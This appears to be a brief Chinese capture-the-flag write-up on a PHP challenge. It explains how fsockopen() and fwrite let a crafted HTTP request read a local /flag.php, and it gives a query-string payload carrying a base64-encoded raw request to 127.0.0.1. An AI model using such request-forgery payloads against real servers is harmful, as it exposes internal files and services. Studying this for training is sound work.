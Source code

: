 fsockopen() 函数是用于建立一个 socket 连接
fwrite将data写入当前会话
可以构造一个请求头，读取服务器本地文件

```
GET /flag.php HTTP/1.1
Host: 127.0.0.1
Connection: Keep-Alive
```



payload:

  ?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=